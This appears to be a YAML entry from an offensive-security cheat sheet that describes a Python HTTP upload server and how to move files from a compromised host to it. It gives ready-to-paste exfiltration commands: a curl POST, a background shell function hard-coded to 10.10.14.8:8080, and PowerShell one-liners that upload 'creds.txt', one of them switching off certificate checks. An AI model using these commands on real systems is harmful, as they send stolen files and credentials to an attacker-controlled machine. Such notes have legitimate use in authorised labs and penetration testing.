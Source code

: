 ```yaml
---
functions:
  file-transfer:
    - description: This python script will handle file uploads and supports POST requests
      code: |
        usage: http-server.py [-h] [-p PORT] [-l LISTEN] [-n]

        A Better Python3 HTTP Server

        optional arguments:
          -h, --help            show this help message and exit
          -p PORT, --port PORT  the port for the http service to listen on
          -l LISTEN, --listen LISTEN
                                the interface to bind to
          -n, --no-ssl          do not serve https / ssl

        UPLOAD:
          Start the Server - python3 http-server.py
          Pick your method:

          - - - curl - - - 
          curl -k -i -X POST -F 'filename=@<filename>' -F 'name=file' http(s)://<ip>:<port>
          
          TIP - cp paste this function and run "get <file>"

        get(){
        file=$1
        ip="10.10.14.8"
        port="8080"
        curl -k -i -X POST -F filename=@"$file" -F name=file "http://$ip:$port" &
        }

          - - - powershell - - - 
          powershell -c (New-Object System.Net.WebClient).UploadFile('http://<ip>:<port>', 'creds.txt')
          powershell -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).UploadFile('https://10.0.0.4:8000', 'creds.txt')
          (3) manually browsing to the ip and port
          (4) profit!
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/http-server.py

---
```


